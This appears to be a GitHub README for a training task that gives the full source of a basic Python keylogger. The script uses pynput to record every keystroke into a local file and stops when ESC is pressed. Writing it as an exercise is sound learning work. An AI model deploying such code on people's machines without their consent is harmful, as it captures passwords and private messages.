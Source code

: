 # Task 04 - Basic Keylogger Program

## 📌 Objective

Create a basic keylogger program in Python that:
- Records and logs keystrokes.
- Saves the logged keys into a file for later review.

## 🛠️ Requirements

- Python 3.x
- `pynput` library for keyboard event listening

You can install the required package using:
```bash
pip install pynput
from pynput import keyboard
from datetime import datetime

# Log file path
LOG_FILE = "key_log.txt"

# Start log with timestamp
with open(LOG_FILE, "a") as f:
    f.write(f"\n\n--- Keylogger started at {datetime.now()} ---\n")

def on_press(key):
    try:
        # Alphanumeric keys
        with open(LOG_FILE, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        # Special keys
        with open(LOG_FILE, "a") as f:
            f.write(f"[{key.name.upper()}]")

def on_release(key):
    # Stop if ESC is pressed
    if key == keyboard.Key.esc:
        return False

# Start the listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
